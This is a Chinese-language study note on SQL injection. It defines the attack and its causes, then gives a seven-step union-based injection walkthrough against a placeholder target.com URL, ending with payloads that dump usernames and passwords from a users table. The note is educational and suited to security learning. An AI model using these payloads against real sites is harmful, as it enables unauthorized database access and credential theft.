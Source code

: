 # 💉 SQL注入攻击

## 🎯 学习目标
深入理解SQL注入原理，掌握各种注入技术和绕过方法，具备独立挖掘和利用SQL注入漏洞的能力。

## 📚 核心概念

### 什么是SQL注入
**定义**: 通过在应用程序的输入参数中插入恶意SQL代码，欺骗服务器执行非预期的数据库操作。

**产生原因**:
- 用户输入未经过滤直接拼接到SQL语句中
- 使用动态SQL语句构造查询
- 缺乏输入验证和参数化查询

## 🔍 注入类型分析

### [[联合注入]] (Union-based)
**原理**: 利用UNION操作符合并查询结果，获取其他表的数据

#### 基础步骤
```sql
-- 1. 判断注入点
http://target.com/news.php?id=1'

-- 2. 判断字段数
http://target.com/news.php?id=1' order by 3--+
http://target.com/news.php?id=1' order by 4--+  # 报错，说明有3个字段

-- 3. 确定显示位
http://target.com/news.php?id=-1' union select 1,2,3--+

-- 4. 获取数据库信息
http://target.com/news.php?id=-1' union select 1,database(),version()--+

-- 5. 获取表名
http://target.com/news.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

-- 6. 获取列名
http://target.com/news.php?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

-- 7. 获取数据
http://target.com/news.php?id=-1' union select 1,group_concat(username,0x3a,password),3 from users--+
```
